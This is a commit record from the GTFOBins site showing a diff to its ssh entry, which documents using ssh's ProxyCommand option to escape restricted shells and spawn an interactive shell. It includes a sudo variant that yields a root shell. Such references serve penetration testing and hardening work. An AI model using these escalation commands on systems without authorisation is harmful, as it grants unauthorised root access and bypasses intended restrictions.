

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/ssh.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Remove non-interactive versions

```diff
--- a/_gtfobins/ssh.md
+++ b/_gtfobins/ssh.md
@@ -4,19 +4,10 @@ functions:
     - description: Reconnecting may help bypassing restricted shells.
       code: ssh localhost $SHELL --noprofile --norc
     - description: Spawn interactive shell through ProxyCommand option.
-      code: ssh -o ProxyCommand="/bin/bash -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/bash -i'" whatever.invalid
-  execute-non-interactive:
-    - description: The executed command output is not shown and can be redirected to a file.
-      code: |
-        CMD=/usr/bin/id
-        ssh -o ProxyCommand="${CMD}" whatever.invalid
+      code: ssh -o ProxyCommand="/bin/sh -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" x
   sudo-enabled:
     - description: Spawn interactive root shell through ProxyCommand option.
-      code: sudo ssh -o ProxyCommand="/bin/bash -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/bash -i'" whatever.invalid
-    - description: The executed command output is not shown and can be redirected to a file.
-      code: |
-        CMD=/usr/bin/id
-        sudo ssh -o ProxyCommand="${CMD}" whatever.invalid
+      code: sudo ssh -o ProxyCommand="/bin/sh -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" x
   download:
     - description: Fetch a remote file from a SSH server.
       code: |
```
